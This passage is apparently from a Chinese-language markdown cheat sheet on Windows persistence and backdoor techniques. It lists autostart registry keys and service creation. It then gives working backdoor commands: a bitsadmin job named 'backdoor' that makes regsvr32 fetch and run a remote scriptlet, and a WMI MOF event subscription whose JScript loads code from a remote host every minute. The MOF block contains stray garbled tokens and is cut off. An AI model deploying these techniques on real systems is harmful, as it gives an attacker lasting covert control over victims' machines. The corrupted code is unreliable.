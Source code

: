 ```
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Session Manager
```
##### 5. Userinit Key 
WinLogon进程加载的login scripts,具体键值：
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
##### 6. Startup Keys 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```
##### 7. Services 
创建服务 
```
sc create [ServerName] binPath= BinaryPathName
```
##### 8. Browser Helper Objects 
本质上是Internet Explorer启动时加载的DLL模块
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects
```
##### 9. AppInit_DLLs 
加载User32.dll会加载的DLL
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```
##### 10. 文件关联 
```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```
##### 11. [bitsadmin](http://www.liuhaihua.cn/archives/357579.html) 
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```
##### 12. [mof ](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)
```
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter 创维A20 $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer 创维A20 $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
```
